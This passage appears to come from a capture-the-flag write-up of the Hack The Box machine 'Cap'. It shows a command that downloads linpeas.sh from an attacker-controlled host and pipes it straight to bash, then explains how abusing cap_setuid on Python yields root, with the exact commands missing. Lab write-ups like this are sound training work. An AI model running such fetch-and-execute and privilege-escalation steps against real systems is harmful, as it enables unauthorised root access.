





Let's use the linPEAS script to check for privilege escalation vectors. We'll download the latest version and store it on our VM.



Then we can create a Python webserver serving that directory by using cd to enter the directory with linxpeas.sh and running sudo python3 -m http.server 80 .



From our shell on Cap, we can fetch linpeas.sh with curl and pipe the output directly into bash to execute it:
```bash
$ curl http://10.10.14.31/linpeas.sh | bash
```
The report contains an interesting entry for files with capabilities. The /usr/bin/python3.8 is found to have cap_setuid and cap_net_bind_service , which isn't the default setting.
According to the documentation, CAP_SETUID allows the process to gain setuid privileges without the SUID bit set. This effectively lets us switch to UID 0 i.e. root. The developer of Cap must have given Python this capability to enable the site to capture traffic, which a non-root user can't do.

The following Python commands will result in a root shell:



And we get root flag.

Another way to find the root flag is searching in https://gtfobins.github.io/ the Python Capability.





[Back](README.md)